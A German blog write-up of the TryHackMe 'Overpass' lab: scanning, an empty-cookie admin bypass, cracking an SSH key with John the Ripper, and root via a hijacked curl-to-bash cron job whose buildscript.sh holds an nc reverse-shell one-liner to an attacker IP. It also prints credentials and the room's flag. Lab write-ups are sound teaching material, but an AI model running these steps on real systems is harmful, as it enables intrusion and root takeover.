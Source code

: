 ```yaml
---
layout: post
title:  "THM: Overpass"
date:   2023-09-19 07:37:00 +0200
categories: ctf writeup
author: d33pjs
---
```


Das zweite CTF welches ich auf TryHackMe getestet habe, war "Overpass". Irgendwas mit Studenten und einem Passwortmanager der alles in Rot47 verschlüsselt. War eigentlich ganz nice...

Trotzdem hier das WriteUp.

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

![beginning](/assets/overpass/overpass.png)

# Step 1: nmap

`nmap -A <ip>`

Immer zu erst nmap... raus gekommen ist: Standard 80/tcp + 22/tcp offen - sonst nix

# Step 2: dirb

`dirb http://<ip>`

Angrifffläche ist hier wohl der Webserver. Also dirb mit default Wordlist. Auffällig war eigentlich nur das Verzeichnis `admin`, der Rest (`downloads`, `\` etc..) gehörte zum Webauftritt für den Overpass Passwortmanager. Sourcecode sowie diverse Builds konnte man im Downloadbereich finden.

Erst dachte ich auch, es hätte viel mehr mit dem Passwortmanager zu tun (irgendwelche Verbindungen per SSH/API... oder hardcoded credentials). 

# Step 3: admin

Beim Adminlogin hatte ich erst angefangen mit ZAP und dem Fuzzer einen Wordlistangriff zu starten (aber natürlich ist mir Java abgeraucht... und eigentlich ist das an der Stelle irgendwie cheaten, find ich). 

Ehrlicherweise habe ich dann erst durch einen WriteUp einen guten Tipp bekommen. Nämlich einen leeren `SessionToken` Cookie setzen. Ganz einfach über die Browserkonsole (Webdev Tools).

![cookiesset](/assets/overpass/overpass_login_admin.png)

Danach werden wir mit einem privaten SSH Key belohnt. Weil James immer sein Passwort vergisst. Man, James...

![cookiesset](/assets/overpass/overpass_afterlogin.png)

... allerdings, war er "Encrypted" (also 'n Passwort drauf, das ich nicht kenne...)

Aber warum gibt man James ein Passwort für seinen SSH Key, obwohl er immer wieder Passwörter vergisst? Und er die sogar lieber mit einem PostIt an den Monitor hängen möchte?
![butwhy](/assets/overpass/why-huh.gif)

# Step 5: John Wick?

... nein, John... The Ripper.

Der hilft mir (hoffentlich) das Passwort für den SSH Key raus zu bekommen. Erst muss der Key aber ins richtige John-Format :-). Dabei hilft `ssh2john` (n Pythonscript das unter Kali eigentlich vorhanden sein sollte).

- `ssh2john overpass_ssh_user_key_james.priv > overpass_ssh_user_key_james.john` dann...
- `john --wordlist=/usr/share/wordlists/rockyou.txt overpass_ssh_user_key_james.john`

Und wenn er dann sein Bleistifftding durchgezogen hat, fällt das Passwort `james13` raus. Man, James...

![johnssh](/assets/overpass/overpass_john_ssh.png)

# Step 6: First Flag

Nach dem Login (`ssh james@10.10.134.214 -i overpass_ssh_user_key_james.priv`) dann die first flag: `user.txt`

![sshsuccessfull](/assets/overpass/overpass_ssh_successfull.png)

![firstflag](/assets/overpass/overpass_firstflag.png)

# Step 7: How to (not) get root

Wie komme ich jetzt an die root flag?

### Setuid?

![setuid](/assets/overpass/overpass_suid.png)

Nope...

### Passwortmanager?

Hat der User vielleicht seinen eigenen Passwortmanager, Overpass, im Einsatz?

Jaaaa.... but:

![jamespw](/assets/overpass/overpass_system_pw_mgmt.png)

... jetzt hab ich zwar das Passwort des Users James `saydrawnlyingpicture`, aber das hilft mir leider nicht weiter.

![susudofailed](/assets/overpass/overpass_su_sudo_failed.png)

(Ich würd James auch keine Root Rechte geben, wenn der ständig sein Passwort vergisst)

# Step 8: How to GET root

### Crontab

Zufällig hab ich in die Crontab geschaut (war zumindest in dem Moment nicht mein "best gues")... und siehe da? Komische Dinge:

![crontab](/assets/overpass/overpass_crontab.png)

Curl lädt irgendwo ein Shell Script herunter? Und führt das auch noch direkt aus? ALS ROOT?? Wow... Hat bestimmt James eingerichtet.

### Hosts

Kinder, deswegen muss man jede noch so kleine Datei auf einem Linux ansehen, denn, wieder nur durch ein WriteUp, wurde ich auf die `/etc/hosts` hingewiesen. Und da fällt es einem dann wie Schuppen von den Augen:

![hosts](/assets/overpass/overpass_hosts.png)

Wir könnten die Hosts ändern und die URL aus der Crontab (`overpass.thm/downloads/src/buildscript.sh`) auf einen, durch uns kontrollierten Webserver, schicken.

### build buildscript

Nach einigen Fehlversuchen, weil irgendeine Schrottversion auf dem System liegt, bin ich mit folgender Idee zum Ziel gekommen (steht sogar so in der Manpage von `nc`):

`echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 10.9.113.208 4242 >/tmp/f'`

![building_buildscript](/assets/overpass/overpass_build_buildscript_listening.png)

Ab damit in ein `buildscript.sh`, dann mit python noch einen schnellen HTTP Server starten: `sudo python3 -m http.server 80`. Da `nc` eine Verbindung zur 10.9.113.208 aufbauen möchte, müssen wir dort (da läuft auch der python http.server) noch ein `nc -lnvp 4242` starten. Dann ist erst Mal warten angesagt. 

![webserver](/assets/overpass/overpass_serving_http_buildscript.png)

In dem Screenshot sind jetzt schon ein paar Versuche drin. Der Cronjob wird nämlich, wie man oben erkennen kann, jede Minute ausgeführt.

Nach dem der Connect auf unseren Angreifer-nc ausgeführt wurde, haben wir eine Shell. Da der Cronjob von root ausgeführt wurde, sogar eine Root Shell. Also kommen wir dort an die letzte Flag.

# Step 9: root flag

Siehe Screenshot... `thm{7f336f8c359dbac18d54fdd64ea753bb}` it is...


